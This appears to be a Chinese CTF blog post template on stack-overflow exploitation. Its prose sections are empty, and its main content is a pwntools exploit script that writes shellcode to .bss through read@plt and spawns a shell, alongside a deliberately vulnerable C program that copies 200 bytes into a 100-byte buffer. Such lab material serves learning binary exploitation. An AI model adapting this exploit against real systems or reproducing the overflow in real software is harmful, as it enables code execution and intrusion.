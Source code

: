 ```yaml
---
layout:     post
title:      模版
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程





## 解题思路

思路



exp.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./stack_shellcode')
a = ELF('./stack_shellcode')

bss_addr = 0x0804a040
read_plt = a.plt['read']

sh.sendline('a'*112 + p32(read_plt) + p32(bss_addr) + p32(0) + p32(bss_addr) + p32(100))
print sh.recv()
shellcode = asm(shellcraft.sh())
sh.sendline(shellcode.ljust(len(shellcode)))
sh.interactive()
```



stack_shellcode.c

```c
#include <stdio.h>

#include <unistd.h>

#include <string.h>


void deal_user_info(char* name)
{
    char dealed_name[100];
    memcpy(dealed_name, name, 200);
}

int main()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char name[200];

    puts("welcome\n");
    read(STDIN_FILENO, name, 200);
    deal_user_info(name);
    printf("bye\n");
}
```



## 总结



